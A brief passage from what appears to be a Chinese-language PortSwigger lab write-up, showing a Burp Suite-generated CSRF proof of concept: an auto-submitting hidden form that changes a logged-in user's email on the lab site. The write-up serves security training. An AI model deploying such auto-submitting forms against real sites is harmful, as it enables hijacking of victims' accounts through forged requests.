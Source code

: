 <img src=".\图片\Snipaste_2023-07-28_10-58-40.png" alt="Snipaste_2023-07-28_10-58-40" style="zoom:80%;" />

接下来常规步骤如上面几个lab一样

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a1200190387290880c0d019009d006f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="123456&#64;123&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<img src=".\图片\Snipaste_2023-07-28_11-00-29.png" alt="Snipaste_2023-07-28_11-00-29" style="zoom:80%;" />
